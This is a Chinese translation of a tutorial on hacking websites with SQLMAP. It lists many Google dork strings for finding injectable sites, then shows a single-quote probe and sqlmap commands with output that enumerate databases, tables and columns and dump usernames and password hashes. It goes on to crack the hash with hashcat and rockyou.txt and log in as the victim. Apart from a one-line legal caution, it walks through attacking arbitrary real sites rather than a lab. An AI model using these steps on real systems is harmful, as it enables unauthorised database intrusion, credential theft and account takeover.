







# 使用 SQLMAP 对网站和数据库进行 SQL 注入攻击

2014/05/30 16:22 | [windhawk](http://drops.wooyun.org/author/windhawk "由 windhawk 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章"), [数据库安全](http://drops.wooyun.org/category/database "查看 数据库安全 中的全部文章") | 占个座先 | 捐赠作者

from：http://www.blackmoreops.com/2014/05/07/use-sqlmap-sql-injection-hack-website-database/

## 0x00 背景介绍

* * *

### 1\. 什么是 SQL 注入？

SQL 注入是一种代码注入技术，过去常常用于攻击数据驱动性的应用，比如将恶意的 SQL 代码注入到特定字段用于实施拖库攻击等。SQL 注入的成功必须借助应用程序的安全漏洞，例如用户输入没有经过正确地过滤（针对某些特定字符串）或者没有特别强调类型的时候，都容易造成异常地执行 SQL 语句。SQL 注入是网站渗透中最常用的攻击技术，但是其实 SQL 注入可以用来攻击所有的 SQL 数据库。在这个指南中我会向你展示在 Kali Linux 上如何借助 SQLMAP 来渗透一个网站（更准确的说应该是数据库），以及提取出用户名和密码信息。

### 2\. 什么是 SQLMAP？

SQLMAP 是一个开源的渗透测试工具，它主要用于自动化地侦测和实施 SQL 注入攻击以及渗透数据库服务器。SQLMAP 配有强大的侦测引擎，适用于高级渗透测试用户，不仅可以获得不同数据库的指纹信息，还可以从数据库中提取数据，此外还能够处理潜在的文件系统以及通过带外数据连接执行系统命令等。

访问 SQLMAP 的官方网站[`www.sqlmap.org`](http://www.sqlmap.org)可以获得 SQLMAP 更为详细的介绍，如它的多项特性，最为突出的是 SQLMAP 完美支持 MySQL、Oracle、PostgreSQL、MS-SQL 与 Access 等各种数据库的 SQL 侦测和注入，同时可以进行六种注入攻击。

还有很重要的一点必须说明：在你实施攻击之前想想那些网站的建立者或者维护者，他们为网站耗费了大量的时间和努力，并且很有可能以此维生。你的行为可能会以你永远都不希望的方式影响到别人。我想我已经说的够清楚了。（PS：请慎重攻击，不要做违法的事情）

PS：之前在 wooyun 上看了一些关于 SQLMAP 的文章，受益匪浅，今天翻译这篇文章，是希望对于如何使用 SQLMAP 提供一个基本的框架，SQL 注入的原理以及 SQLMAP 详细的命令参数和不同的应用实例可以参考下面的文章：

SQL 注射原理：[`drops.wooyun.org/papers/59`](http://drops.wooyun.org/papers/59)

SQLMAP 用户手册：[`drops.wooyun.org/tips/143`](http://drops.wooyun.org/tips/143)

SQLMAP 实例 COOKBOOK：[`drops.wooyun.org/tips/1343`](http://drops.wooyun.org/tips/1343)

## 0x01 定位注入的网站

* * *

这通常是最枯燥和最耗时的一步，如果你已经知道如何使用 Google Dorks（Google dorks sql insection：谷歌傻瓜式 SQL 注入）或许会有些头绪，但是假如你还没有整理过用于 Google 搜索的那些字符串的话，可以考虑复制下面的条目，等待谷歌的搜索结果。

### a：利用 Google Dorks 字符串找到可注入的网站

这个列表很长，如果你也懂得 SQL，那么你也可以添加新的条目，记得留言给我。

| Google Dork string Column 1 | Google Dork string Column 2 | Google Dork string Column 3 |
| inurl:item_id= | inurl:review.php?id= | inurl:hosting_info.php?id= |
| inurl:newsid= | inurl:iniziativa.php?in= | inurl:gallery.php?id= |
| inurl:trainers.php?id= | inurl:curriculum.php?id= | inurl:rub.php?idr= |
| inurl:news-full.php?id= | inurl:labels.php?id= | inurl:view_faq.php?id= |
| inurl:news_display.php?getid= | inurl:story.php?id= | inurl:artikelinfo.php?id= |
| inurl:index2.php?option= | inurl:look.php?ID= | inurl:detail.php?ID= |
| inurl:readnews.php?id= | inurl:newsone.php?id= | inurl:index.php?= |
| inurl:top10.php?cat= | inurl:aboutbook.php?id= | inurl:profile_view.php?id= |
| inurl:newsone.php?id= | inurl:material.php?id= | inurl:category.php?id= |
| inurl:event.php?id= | inurl:opinions.php?id= | inurl:publications.php?id= |
| inurl:product-item.php?id= | inurl:announce.php?id= | inurl:fellows.php?id= |
| inurl:sql.php?id= | inurl:rub.php?idr= | inurl:downloads_info.php?id= |
| inurl:index.php?catid= | inurl:galeri_info.php?l= | inurl:prod_info.php?id= |
| inurl:news.php?catid= | inurl:tekst.php?idt= | inurl:shop.php?do=part&id= |
| inurl:index.php?id= | inurl:newscat.php?id= | inurl:productinfo.php?id= |
| inurl:news.php?id= | inurl:newsticker_info.php?idn= | inurl:collectionitem.php?id= |
| inurl:index.php?id= | inurl:rubrika.php?idr= | inurl:band_info.php?id= |
| inurl:trainers.php?id= | inurl:rubp.php?idr= | inurl:product.php?id= |
| inurl:buy.php?category= | inurl:offer.php?idf= | inurl:releases.php?id= |
| inurl:article.php?ID= | inurl:art.php?idm= | inurl:ray.php?id= |
| inurl:play_old.php?id= | inurl:title.php?id= | inurl:produit.php?id= |
| inurl:declaration_more.php?decl_id= | inurl:news_view.php?id= | inurl:pop.php?id= |
| inurl:pageid= | inurl:select_biblio.php?id= | inurl:shopping.php?id= |
| inurl:games.php?id= | inurl:humor.php?id= | inurl:productdetail.php?id= |
| inurl:page.php?file= | inurl:aboutbook.php?id= | inurl:post.php?id= |
| inurl:newsDetail.php?id= | inurl:ogl_inet.php?ogl_id= | inurl:viewshowdetail.php?id= |
| inurl:gallery.php?id= | inurl:fiche_spectacle.php?id= | inurl:clubpage.php?id= |
| inurl:article.php?id= | inurl:communique_detail.php?id= | inurl:memberInfo.php?id= |
| inurl:show.php?id= | inurl:sem.php3?id= | inurl:section.php?id= |
| inurl:staff_id= | inurl:kategorie.php4?id= | inurl:theme.php?id= |
| inurl:newsitem.php?num= | inurl:news.php?id= | inurl:page.php?id= |
| inurl:readnews.php?id= | inurl:index.php?id= | inurl:shredder-categories.php?id= |
| inurl:top10.php?cat= | inurl:faq2.php?id= | inurl:tradeCategory.php?id= |
| inurl:historialeer.php?num= | inurl:show_an.php?id= | inurl:product_ranges_view.php?ID= |
| inurl:reagir.php?num= | inurl:preview.php?id= | inurl:shop_category.php?id= |
| inurl:Stray-Questions-View.php?num= | inurl:loadpsb.php?id= | inurl:transcript.php?id= |
| inurl:forum_bds.php?num= | inurl:opinions.php?id= | inurl:channel_id= |
| inurl:game.php?id= | inurl:spr.php?id= | inurl:aboutbook.php?id= |
| inurl:view_product.php?id= | inurl:pages.php?id= | inurl:preview.php?id= |
| inurl:newsone.php?id= | inurl:announce.php?id= | inurl:loadpsb.php?id= |
| inurl:sw_comment.php?id= | inurl:clanek.php4?id= | inurl:pages.php?id= |
| inurl:news.php?id= | inurl:participant.php?id= |  |
| inurl:avd_start.php?avd= | inurl:download.php?id= |  |
| inurl:event.php?id= | inurl:main.php?id= |  |
| inurl:product-item.php?id= | inurl:review.php?id= |  |
| inurl:sql.php?id= | inurl:chappies.php?id= |  |
| inurl:material.php?id= | inurl:read.php?id= |  |
| inurl:clanek.php4?id= | inurl:prod_detail.php?id= |  |
| inurl:announce.php?id= | inurl:viewphoto.php?id= |  |
| inurl:chappies.php?id= | inurl:article.php?id= |  |
| inurl:read.php?id= | inurl:person.php?id= |  |
| inurl:viewapp.php?id= | inurl:productinfo.php?id= |  |
| inurl:viewphoto.php?id= | inurl:showimg.php?id= |  |
| inurl:rub.php?idr= | inurl:view.php?id= |  |
| inurl:galeri_info.php?l= | inurl:website.php?id= |  |

### b：初始验证网站是否可以进行 SQL 注入

上面的字符串搜索之后，也许会得到成百上千的结果，那么如何判断这些网站是否可以进行 SQLMAP 的注入呢？有很多种方法，我相信大家会争论哪种才是最好的，但是对我而言下面的方法是最简单和最有效的。

我们假设你使用了字符串：inurl:item_id=，然后其中一个结果的网站是：

```
http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 
```

在后面添加添加一个单引号’之后，URL 成为了：

```
http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15' 
```

如果页面返回一个 SQL 错误，说明页面存在 SQL 注入点；如果页面加载正常显示或者重定向到一个不同的页面，跳过这个网站，用同样的方法去测试下一个网站吧！

【PS：现在比较多的可以使用’and 1=1’、‘or 1=1’等测试注入点的存在，这篇文章侧重地是使用 SQLMAP 注入的思路和整体步骤】

下面是我自己测试时的 SQL 错误截图：


不同的数据库返回的 SQL 错误或许会有不同，比如：

Microsoft SQL Server

```
Server Error in ‘/’ Application. Unclosed quotation mark before the character string ‘attack;’. 
```

描述：Description: An unhanded exception occurred during the execution of the current web request. Please review the stack trace for more information about the error where it originated in the code.

```
Exception Details: System.Data.SqlClient.SqlException: Unclosed quotation mark before the character string ‘attack;’ 
```

MySQL Errors

```
Warning: mysql_fetch_array(): supplied argument is not a valid MySQL result resource in /var/www/myawesomestore.com/buystuff.php on line 12

Error: You have an error in your SQL syntax: check the manual that corresponds to your MySQL server version for the right syntax to use near ‘’’ at line 12 
```

Oracle Errors

```
java.sql.SQLException: ORA-00933: SQL command not properly ended at oracle.jdbc.dbaaccess.DBError.throwSqlException(DBError.java:180) at oracle.jdbc.ttc7.TTIoer.processError(TTIoer.java:208)

Error: SQLExceptionjava.sql.SQLException: ORA-01756: quoted string not properly terminated 
```

PostgreSQL Errors

```
Query failed: ERROR: unterminated quoted string at or near “‘’’” 
```

## 0x02 列出 DBMS 数据库

* * *

正如上图你看到的，我找到了一个存在 SQL 注入点的网站。现在我需要列出所有的数据库（有时这也称为枚举列数）。因为我一直在使用 SQLMAP，它会告诉我哪个存在漏洞。

运行下面的命令，参数是你找到的存在注入点的网址：

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -- 
```

我们现在看到两个数据库，其中的 information_schema 是几乎所有 MySQL 数据库默认的标准数据库，所以我们的兴趣主要在 sqldummywebsite 数据库上。

这里的参数：

```
sqlmap：SQLMAP 可执行文件的名称，也可使用 python sqlmap.py 来替代
-u：目标 URL
--dbs：枚举 DBMS 数据库 
```

## 0x03 列出目标数据库的表

* * *

现在我们需要知道在数据库 sqldummywebsite 中都有哪些表，为了弄清这些信息，我们使用下面的命令：

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite --tables 
```

我们发现这个数据有 8 张表：

```
[10:56:20] [INFO] fetching tables for database: 'sqldummywebsite'
[10:56:22] [INFO] heuristics detected web page charset 'ISO-8859-2'
[10:56:22] [INFO] the SQL query used returns 8 entries
[10:56:25] [INFO] retrieved: item
[10:56:27] [INFO] retrieved: link
[10:56:30] [INFO] retrieved: other
[10:56:32] [INFO] retrieved: picture
[10:56:34] [INFO] retrieved: picture_tag
[10:56:37] [INFO] retrieved: popular_picture
[10:56:39] [INFO] retrieved: popular_tag
[10:56:42] [INFO] retrieved: user_info 
```



显而易见，我们的兴趣主要在表 user_info 中，因为这张表中包含着数据库的用户名和密码。

## 0x04 列出指定数据库中的列

* * *

现在我们需要列出数据库 sqldummywebsite 的表 user_info 中的所有的列，使用 SQLMAP 进行这一步会非常简单，运行下面的命令：

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info --columns 
```

命令返回 5 个段:

```
[10:57:16] [INFO] fetching columns for table 'user_info' in database 'sqldummywebsite'
[10:57:18] [INFO] heuristics detected web page charset 'ISO-8859-2'
[10:57:18] [INFO] the SQL query used returns 5 entries
[10:57:20] [INFO] retrieved: user_id
[10:57:22] [INFO] retrieved: int(10) unsigned
[10:57:25] [INFO] retrieved: user_login
[10:57:27] [INFO] retrieved: varchar(45)
[10:57:32] [INFO] retrieved: user_password
[10:57:34] [INFO] retrieved: varchar(255)
[10:57:37] [INFO] retrieved: unique_id
[10:57:39] [INFO] retrieved: varchar(255)
[10:57:41] [INFO] retrieved: record_status
[10:57:43] [INFO] retrieved: tinyint(4) 
```



哈哈！其中的`user_login`和`user_password`字段就是我们要找的！

## 0x05 从指定的数据库的表中列出用户名

* * *

SQLMAP 的 SQL 注入非常简单！再次运行下面的命令吧：

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info -C user_login --dump 
```

现在我们有了数据库的用户名了：

```
[10:58:39] [INFO] retrieved: userX
[10:58:40] [INFO] analyzing table dump for possible password hashes 
```



现在我们只需要这个用户的密码了，下面就来介绍如何得到密码！

## 0x06 提取用户密码

* * *

你可能已经习惯如何使用 SQLMAP 了！使用下面的参数来提取密码字段的数值吧！

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info -C user_password --dump 
```

现在我们得到密码字段了：

```
[10:59:15] [INFO] the SQL query used returns 1 entries
[10:59:17] [INFO] retrieved: 24iYBc17xK0e.
[10:59:18] [INFO] analyzing table dump for possible password hashes
Database: sqldummywebsite
Table: user_info
[1 entry]
+---------------+
| user_password |
+---------------+
| 24iYBc17xK0e. |
+---------------+ 
```



虽然我们得到了密码字段的值，但是却是密码的 HASH 值，现在我们需要解密这个密码了。我之前已经探讨过在 Kali Linux 上如何解密 MD5、phpBB、MySQL 和 SHA-1。

你可以参考：

[`www.blackmoreops.com/2014/03/26/cracking-md5-phpbb-mysql-and-sha1-passwords-with-hashcat/`](http://www.blackmoreops.com/2014/03/26/cracking-md5-phpbb-mysql-and-sha1-passwords-with-hashcat/)

下面简要地介绍如何使用 hashcat 来破解 MD5。

## 0x07 破解密码

* * *

现在密码字段的值是 24iYBc17xK0e ，你首先应当判断 HASH 的类型。

### a：识别 HASH 类型

幸运地是，Kali Linux 提供了可以用来鉴别 HASH 类型的工具，只需要命令行下敲入命令:

Hash-identifier

然后根据提示提供 HASH 值就可以了：



所以这是一个 DES(Unix) HASH。

【PS：实际中 HASH 加密使用几种形式，如*nix 系统、MD5(Unix)等，详细内容可以参考 HASH 加密类型传送门：[`zone.wooyun.org/content/2471`](http://zone.wooyun.org/content/2471)】

### b：使用 cudahashcat 破解 HASH

首先我们必须知道 DES HASH 使用的代码，运行命令：

```
cudahashcat --help | grep DES 
```

【PS：这里的 cudahashcat 是借助 GPU 进行破解的工具，下面提到的 oclHashcat 也是同样的工具，详细介绍与用法可以参考 HASHCAT 使用简介传送门：[`drops.wooyun.org/tools/655`](http://drops.wooyun.org/tools/655)】



如图所示：代码要么是 1500 要么是 3100，因为目标是一个 MySQL 数据库，所以一定是 1500.我运行的电脑使用的是 NVDIA 显卡，因此我可以使用 cudaHashcat；我的笔记本是 AMD 显卡，那么我就只能使用 oclHashcat 破解 MD5.如果你运行在 VirtualBox 或者 VMWare 上，你既不能使用 cudahashcat 也不能使用 oclhashcat，你必须安装 Kali Linux。

我将 HASH 值存储在 DES.hash 文件中，然后运行命令：

```
cudahashcat -m 1500 -a 0 /root/sql/DES.hash /root/sql/rockyou.txt 
```



现在我们得到了破解的密码：abc123，接下来我们就可以使用这个用户的身份登录了。

版权声明：未经授权禁止转载 [windhawk](http://drops.wooyun.org/author/windhawk "由 windhawk 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [利用 insert，update 和 delete 注入获取数据](http://drops.wooyun.org/tips/2078)
*   [SqlServer 2005 Trigger](http://drops.wooyun.org/tips/3464)
*   [Burp Suite 使用介绍（一）](http://drops.wooyun.org/tools/1548)
*   [Browser Security-css、javascript](http://drops.wooyun.org/tips/150)
*   [Samsung S Voice attack](http://drops.wooyun.org/tips/2736)
*   [GPU 破解神器 Hashcat 使用简介](http://drops.wooyun.org/tools/655)